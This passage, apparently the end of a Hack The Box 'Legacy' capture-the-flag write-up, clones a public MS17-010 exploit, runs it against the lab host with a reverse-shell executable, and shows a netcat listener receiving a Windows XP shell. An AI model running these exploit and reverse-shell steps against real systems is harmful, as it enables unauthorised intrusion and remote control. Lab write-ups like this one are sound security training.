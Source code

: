 To be honest - we should probably be using a volume for things like adding `rev.exe` to the container - but I was in a rush. So, build the container using:

```none
sudo docker build -t cattime .
```

Start the container, and get a shell within the container:

```none
sudo docker run -it cattime /bin/sh
```

Download a good and easy ms-17-010 exploit using `git`:

```none
git clone https://github.com/helviojunior/MS17-010.git
```

Move into the freshly cloned repo, and run the exploit.

```none
cd MS17-010/
python send_and_execute.py 10.10.10.4 ../rev.exe 
```

Note how we reference the `rev.exe` shell in the above command. Which should be in the parent folder. Make sure to have a netcat lister set up:

```none
└─$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.4] 1035
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```

Done!

## Lessons Learned

- Don't forget about the awesome `nmap` scripts and keep learning about them
- Docker for setting up unusual environments is awesome and should be used more

## Useful Resources

- [HTB: Legacy by 0xdf](https://0xdf.gitlab.io/2019/02/21/htb-legacy.html)
- [Hack The Box — Legacy Writeup w/o Metasploit by Rana Khalil](https://ranakhalil101.medium.com/hack-the-box-legacy-writeup-w-o-metasploit-2d552d688336)
